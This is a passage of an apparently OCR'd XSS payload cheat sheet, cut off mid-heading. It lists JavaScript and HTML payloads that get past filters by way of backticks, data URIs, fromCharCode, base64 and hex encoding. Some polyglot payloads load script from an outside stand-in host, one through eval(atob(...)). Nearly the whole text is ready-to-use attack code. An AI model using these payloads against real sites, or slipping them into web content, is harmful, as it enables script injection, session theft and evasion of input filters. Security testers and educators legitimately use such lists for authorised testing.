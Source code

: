 #### Using Backticks

``var img = document.createElement('img');
img.src = `javascript:alert("XSS")`;
document.body.appendChild(img);`` 

#### Using Data URIs

`var a = document.createElement('a');
a.href = 'data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=';
a.innerHTML = 'Click me';
document.body.appendChild(a);` 

#### Double Encoding

`var script = document.createElement('script');
script.innerHTML = "eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))";
document.body.appendChild(script);` 

### Encrypted Payloads

#### Base64 Encoding with Execution

`var script = document.createElement('script');
script.src = 'data:text/javascript;base64,YWxlcnQoJ1hTUycp';
document.body.appendChild(script);` 

#### Hex Encoding with Execution

`var script = document.createElement('script');
script.innerHTML = "\x61\x6c\x65\x72\x74\x28\x27\x58\x53\x53\x27\x29";
document.body.appendChild(script);` 

## Advanced XSS Payloads

### Polyglot Payloads

Polyglot payloads can be used in multiple contexts, such as HTML, JS, CSS, etc.

`<script src=//your.site/0></script>` 


`"><script src=//your.site/0 onerror=eval(atob('ZG9jdW1lbnQud3JpdGUoJzxzY3JpcHQ+YWxlcnQoJ1hTUycpOzwvc2NyaXB0Pic='))></script>` 

### Filter Bypass Techniques

#### Using Backticks


``<IMG SRC=`javascript:alert("XSS")`>`` 

#### Using Data URIs
